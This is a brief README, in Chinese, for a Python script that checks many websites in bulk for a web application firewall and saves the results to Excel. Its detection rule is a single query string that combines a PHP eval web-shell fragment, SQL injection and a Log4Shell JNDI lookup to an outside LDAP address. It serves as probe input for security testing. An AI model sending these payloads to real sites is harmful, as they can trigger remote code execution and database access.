

# check-waf
批量检查站点是否存在waf

## how to use
python3 check-waf.py urls.txt

## 说明
默认生成的Excel表格名字为：{txt文件名}\_waf_results\_{当前时间}.xlsx

## 检测规则

payload：`?a=<%3fphp+%40eval($_GET['cmd'])%3b%3f>%26b%3d1'+or+'1'%3d'1&c=${jndi%3aldap%3a//10.0.0.1%3a8080/Exploit}&s=&id=UNION+SELECT+ALL+FROM+information_schema+AND+'+or+SLEEP(5)+or+'`
